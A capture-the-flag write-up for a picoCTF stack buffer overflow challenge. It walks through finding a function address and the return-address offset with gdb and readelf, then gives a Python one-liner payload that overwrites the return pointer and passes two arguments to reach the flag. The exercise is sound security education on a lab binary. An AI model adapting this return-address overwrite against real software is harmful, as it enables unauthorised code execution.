 This challenge memics `jump to libc` buffer overflow attack. If you want to exactly underestand it, then this is the best 
explination I have ever found [jump to libC by Dr.Du](https://youtu.be/LBo56Xyowvk?t=1240).

Basiclly, we need to jump to `flag` function, but prepare the `arg1,arg2` on the correct place on the stack ($ebp+8,$ebp+12)
for the flag function.

The $ebp when flag is executed will be in the same position of the $eip (return pointer), see the lecture above by Dr. Du 
if you want to understand how this is the case.

*So what we can do is rewirte the return pointer, and jump 4 bytes then write the arg1, then arg2. 

1- let's first find the address of flag which is `080485e6`
```
$ gdb vuln
(gdb) p flag
```
or 
```
$ readelf  -s vuln | grep flag
```
2- Let's find the return address location
Method 1, just fill the buffer until you get sig fault.  
```
python -c 'print("A"*184)`|./vuln
Segmentation fault (core dumped)
```
That means the return address is 188 bytes from the beggining of the `buf`. 

Method 2, use gdb to print the difference between `$ebp` and `buf` then add 4 bytes (the size of the previouse frame pointer)
to get the location of the return address. 
```
$gdb vuln
(gdb) b vuln
(gdb) p $ebp
(gdb) p &buf
# for some reason I couldn't print buff, so I just fill it with AA then print the values below the $ebp to find where is it.

$gdb vuln
(gdb)disassemble vuln
(gdb)b *0x0804869a < break just after gets function>
(gdb)r
<enter>AAAAAAAAAAAAAA
(gdb)x/200x $ebp-200
< look for the first address that contains 0x41414141, the A's>
< you will find it 0xffd00e90, which is the address of buf>
(gdb)p/d $epb - 0xffd00e90
$1=184 < same value we get from method 1>
```
So the return address is 184+4bytes(previous frame pointer) bytes from the beggining of the buf.
3- Let's overflow the buffer
Now we have:
- The address of the flag function `080485e6`
- The location of the return pointer `188` bytes from the beggining of the buf
- The location of the arg1, and arg2 4 and 8 bytes above the return address (i.e. 202,206).
Or simply jump 4bytes after the return address then write arg1, then arg2. 
```
#188 A's + (return address) + (dump A's into 4bytes) + (first arg)+(second arg)
python -c 'import struct; print("A"*188+struct.pack("<I",0x080485e6)+"AAAA"+struct.pack("<I",0xDEADBEEF)+struct.pack("<I",0xC0DED00D))'|./vuln
picoCTF{arg5_and_r3turn55897b905}
```
Note: struct.pack `<I` is to put the value in little endian format in the memory. 

